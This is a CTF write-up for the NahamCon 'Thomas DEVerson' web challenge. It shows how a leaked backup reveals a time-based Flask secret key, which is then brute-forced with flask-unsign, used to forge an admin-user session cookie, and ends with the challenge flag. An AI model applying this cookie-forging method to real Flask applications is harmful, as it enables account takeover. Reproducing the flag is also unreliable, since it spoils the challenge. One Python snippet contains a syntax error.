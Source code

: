 # Challenge Name: Thomas DEVerson


![date](https://img.shields.io/badge/date-23.05.2024-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-175-blue.svg)  

## Description

Author: @Jstith  
  
All things considered, I'm impressed this website is still up and running 200 years later.  
  
**Press the `Start` button on the top-right to begin this challenge.**

**Connect with:**  

- [http://challenge.nahamcon.com:32723](http://challenge.nahamcon.com:32723/)

## Detailed solution

![Pasted image 20240525232509](https://github.com/BaadMaro/CTF/assets/72421091/f452f6c5-cfa2-4f21-b0e5-69358adcd8e4)

Start checking the pages. I found a comment in the Messages page view-source:http://challenge.nahamcon.com:32723/messages

```html
<!-- <a href="/backup" class="pl-md-0 p-3 text-white">Backup</a> !-->
```

http://challenge.nahamcon.com:32723/backup

![Pasted image 20240525232639](https://github.com/BaadMaro/CTF/assets/72421091/ca88130f-7376-4769-b8f8-1de85ba0d6b8)

We have a part of the app.py (10 lines) 

We can see clearly the app secret used for flask cookie management and also users

The secret key is linked the date time of app start which is available at http://challenge.nahamcon.com:32723/status

The cookie used `eyJuYW1lIjoiZ3Vlc3QifQ.ZlJnJQ.v6T-LeB_sG7QtOz-9nts1T9-jyA` which has the part {"name":"guest"} (using base64 decode)

Now when to get the exact time used for secret key to forge our cookie using one of the allowed users

Getting the date http://challenge.nahamcon.com:32723/status

```python
from datetime import datetime, timedelta

# Get the current date and time
now = datetime.now()

# Define the duration to subtract
days = 82816
hours = 12
minutes = 41

# Create a timedelta object for the duration
duration = timedelta(days=days, hours=hours, minutes=minutes)

# Calculate the past date and time
past_date = now - duration

# Print the result
print("past_date)
```

I got 1797-08-25. I ignored the hour and minutes to try find them accurately

```python
for hour in range(24):
    for minute in range(60):
        print(f"THE_REYNOLDS_PAMPHLET-17970825{hour:02}{minute:02}")
```

I saved the output in secrets.txt and start the cracking process using `flask-unsign`

```
flask-unsign -c "eyJuYW1lIjoiZ3Vlc3QifQ.Zk-uig.mX9ksf-4ohQQjnA3I6m2OlENt4Y" --wordlist secrets.txt -u --no-literal-eval

[*] Session decodes to: {'name': 'guest'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 640 attemptsLET-17970825
b'THE_REYNOLDS_PAMPHLET-179708250845'

```

We got the secret key `THE_REYNOLDS_PAMPHLET-179708250845`

Now let's generate our cookie

```
└─$ flask-unsign -c "{'name': 'Jefferson'}" --secret "THE_REYNOLDS_PAMPHLET-179708250845" --sign
eyJuYW1lIjoiSmVmZmVyc29uIn0.Zk-3WQ.WCy1txbI_4wuGzruToNF7FY14YQ
```

We need to change the cookie in devs tools and check messages page

![Pasted image 20240525234745](https://github.com/BaadMaro/CTF/assets/72421091/56136246-ffd9-43d2-963f-4fd0fdf1588a)

## Flag

```
flag{f69f2c087b291b9da9c9fe9219ee130f}
```
